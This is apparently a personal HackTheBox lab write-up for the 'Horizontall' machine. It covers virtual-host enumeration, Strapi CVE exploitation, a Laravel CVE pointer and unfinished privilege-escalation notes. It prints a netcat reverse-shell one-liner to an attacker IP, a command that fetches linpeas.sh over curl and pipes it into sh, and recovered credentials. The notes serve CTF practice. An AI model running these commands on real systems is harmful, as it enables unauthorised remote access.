



Box Info Horizontall.htb
OS: Linux \
IP: 10.10.11.105 \

Part I Skills learned::  
SSH, nginx, reverse shells \
CVE-2019-18818, CVE-2019-19609, CVE-2021-3129 

---
**Enumeration::**

nmap -p- -A -oN Horizontall.txt ${IP} ::
```
22 SSH 
80 http nginx 1.14.0 (Ubuntu)

```
gobuster dir -u http://<ip> -w /usr/share/wordlists/directory-list-1.0.txt :: nothing
ffuf :: nothing
nikto -h http://horizontall.htb :: nothing
Very little enumeration... ***but***

##Because it's running Nginx, it's possible to have VHOSTs::##
gobuster vhost -u http://horizontall.htb -w /usr/share/wordlists/subdomains-top1million.txt(see url) -t 150 ::
 1) Found: api-prod.horizontall.htb (Status: 200) [Size: 413]
 2) **Add new dir to /etc/hosts**
 3) gobuster u http://api-prod.horizontall.htb -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 150 ::
 4) Found: /admin, /users, /reviews, /Reviews, /Users, /Admin, /REVIEWS, 
```
 curl GET http://api-prod.horizontall.htb/<dir> show reviews w/ names. /Admin shows .js
 http://.../admin :: ***Strapi*** login page
    viewing .js scripts show verison of strapi. See 
        + "strapi-plugin-content-type-builder@3.0.0-beta.17.4"
 http://.../reviews :: .json review info
 http://.../Users :: 403
 http://.../%C0 :: 400
```
---
**OSINT::**
[CVE's](https://www.cvedetails.com/vulnerability-list/vendor_id-22287/product_id-75293/Strapi-Strapi.html)
[exploit.py](https://www.exploit-db.com/exploits/50239)

After running exploit.py, shell becomes broken. see 
 + "Remember this is a blind RCE dont expect to see output"
 + Now login with credentials:: admin:SuperStrongPassword1 see 
 + File upload present in admin portal.
   + try to upload reverse shell::
   1)`$> rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.16.3 1337 >/tmp/f` see 
   2) `nc -lnvp <lister port> :: $whoami strapi` 
   3) /home/developer/user.txt

---
Root::
+ netstat shows ports && ips
+ sudo -l nothing, very low permissions.
+ find / -perm /6000
  + GTFO's: 

+ python -m http.server 8081
+ curl <attack tun ip>:8081/linpeas.sh | sh
    + see 
```
UN:PW for mysql (from linpeas.sh): developer:#J!:F9Zt2u
SSH keys avaliable : /opt/strapi/myapi/node_modules/..etc.etc
sudo verison 1.8.21p2
curl 127.0.0.1:8000 ::
    + https://vapor.laravel.com
    + see link laravel_exploit
    exploit: CVE-2021-3129_exploit
```
TODO::
import requests:
no module requests available 

---
**References::
[Discovery_DNS_subdomains_etc](https://github.com/danielmiessler/SecLists)
[Linpeas.sh](https://github.com/carlospolop/PEASS-ng/releases/tag/refs/pull/252/merge)
[Lavarel_exploit](https://github.com/nth347/CVE-2021-3129_exploit)
[walkthrough](https://burakozlu.medium.com/horizontall-walkthrough-htb-250182ab0721)